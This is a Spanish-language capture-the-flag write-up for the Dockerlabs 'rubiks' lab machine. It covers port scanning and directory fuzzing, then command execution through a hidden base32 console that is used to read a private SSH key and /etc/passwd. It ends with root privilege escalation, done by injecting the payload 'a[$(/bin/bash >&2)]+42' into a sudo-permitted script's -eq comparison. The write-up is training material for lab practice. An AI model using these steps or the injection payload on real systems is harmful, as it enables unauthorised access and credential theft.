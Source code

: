 # rubiks

Maquina "rubiks" de [Dockerlabs](https://dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio

![rubiks](./images/rubiks/img/rubiks.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Sep  1 22:24:03 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-09-01 22:24:03 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:3f:77:f8:5e:4e:89:42:4a:ce:14:3b:ac:59:05:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrfXFz4pyHxtcjrlXWm2Dry5PDT5HgtSquXhC/UIktolkH/x0IPt0a6tvePKwSbt3oKZ/f29oVgedMnzL55g+s=
|   256 b4:2a:b2:f8:4a:1b:50:09:fb:17:28:b7:29:e6:9e:6d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxxY7fugsdx8wjNhWhOCOSrEH+NaadgL+ilg4ypJyQ+
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://rubikcube.dl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  1 22:24:12 2024 -- 1 IP address (1 host up) scanned in 8.68 seconds
```

Como vemos, el puerto `22 y 80` están abiertos. El puerto 22 está corriendo openssh y el 80 apache. También podemos ver esta línea:

```css
http-title: Did not follow redirect to http://rubikcube.dl/
```

Esto significa que tenemos un dominio, por lo que editaremos el archivo `/etc/hosts` y agregamos al final lo siguiente:

```css
<ip> rubikcube.dl
```

Ahora entramos desde el navegador:

**Puerto 80:**

![80](./images/rubiks/img/80.png)

Al parecer es una página de una tienda pero nada nos sirve.

Ahora haremos un poco de fuzzing web con gobuster para ver si encontramos algo:

```css
gobuster dir -u http://rubikcube.dl/ -w <wordlist> -x php,html,txt
```

![gobuster](./images/rubiks/img/gobuster.png)

Como vemos hay un directorio `/administration/`, al cual si entramos y vamos a `Configuraciones > console` la url nos cambiará a "http://rubikcube.dl/myconsole.php" pero nos dice que no existe. Podriamos poner "myconsole.php" en "/administration/" y ver si realmente existe:

![console](./images/rubiks/img/console.png)

## INTRUSION

Como vemos parece que podemos ejecutar comandos, el problema es que nos pide una codificación. Luego de haber estado probando un rato se me ocurrió probar `base32` y ver si así podiamos ejecutar comandos, para esto podemos usar el script basico que hice, no es obligatorio pero da comodidad.

Si ejecutamos el comando `ls -la` (obviamente en base32) veremos la siguiente salida:

```css
total 28
drwxr-xr-x 1 root root  118 Aug 30 03:28 .
drwxr-xr-x 1 root root  132 Aug 30 02:03 ..
-rwxr-xr-x 1 root root 3389 Aug 30 03:28 .id_rsa
-rw-r--r-- 1 root root 6665 Aug 30 01:34 configuration.php
drwxr-xr-x 1 root root   16 Aug 30 00:23 img
-rw-r--r-- 1 root root 5460 Aug 30 01:22 index.php
-rw-r--r-- 1 root root 3509 Aug 30 01:52 myconsole.php
-rw-r--r-- 1 root root 1825 Aug 30 00:40 styles.css
```

Como vemos hay un id\_rsa, por lo que podriamos leerlo y copiarlo y también leer el `/etc/passwd` para ver con que usuario usarlo:

```css
luisillo:x:1001:1001::/home/luisillo:/bin/sh
```

Teniendo el usuario luisillo, nos copiamos el "id\_rsa" y nos lo guardamos en nuestra máquina atacante, luego le damos permisos de ejecución con `chmod 600 id_rsa` y simplemente nos conectamos usando `ssh -i id_rsa luisillo@172.17.0.2`.

## ESCALADA DE PRIVILEGIOS

**Luisillo**

Una vez dentro ejecutamos `bash`. Ahora si ejecutamos un `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for luisillo on f72b6d53a48d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on f72b6d53a48d:
    (ALL) NOPASSWD: /bin/cube
```

vemos que podemos ejecutar el binario cube como root, pero si lo miramos un poco vemos que usa un "EQ comparer" en la siguiente línea:

```css
if [[ $number -eq $correct_number ]]; then
```

por lo que si buscamos un poco encontramos que podemos aprovecharlo si ejecutamos lo siguiente en el input:

```css
a[$(/bin/bash >&2)]+42
```

Fuente: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/

Una vez ejecutado ganaremos acceso root:

![root](./images/rubiks/img/root.png)

Gracias por leer.

